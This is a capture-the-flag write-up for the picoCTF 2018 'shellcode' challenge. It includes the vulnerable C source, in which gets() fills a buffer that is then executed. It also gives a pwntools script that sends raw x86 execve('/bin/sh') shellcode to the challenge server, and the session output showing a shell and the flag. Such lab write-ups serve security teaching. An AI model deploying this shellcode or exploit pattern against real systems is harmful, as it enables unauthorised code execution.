

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Looks like a simple overflow and return to shellcode. Lets explore the source code before we build our exploit

## vuln.c

A simple vuln() function that contains the vulnerable gets function. Notice our buffer at the top which should give us an idea of how much we need to fill
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

## Strategy

1. Find our buffer amount needed to control the return pointer
2. Build a payload containing the buffer + return_placeholder + nopslide + shellcode
3. Utilize gdb to find a good spot in the middle of our nop slide to use as a return address
4. Send the final payload and get the flag

## Strategy *Update*

After spending waay to long on this it became clear that there was something I was missing. I decided to just throw a shellcode at it (ironic) and I popped a shell

1. Find a shellcode and send it

### apple.py
```python
#!/usr/bin/env python

from pwn import *
import sys

argv = len(sys.argv)

#start process locally or remotely based on args given
if argv > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed')
else:
	p = process('./vuln')

#/bin/dash 28 bytes
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p.sendline(shellcode)
p.interactive()
```

<details>
	<summary>Flag</summary>

```
[+] Starting remote process 'vuln' on 2018shell.picoctf.com: pid 352102
[*] Switching to interactive mode
Enter a string!
1�Ph//shh/bin\x89��\x89°\x0b̀1�@̀
Thanks! Executing now...
$ $ cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}$ $  
```
</details>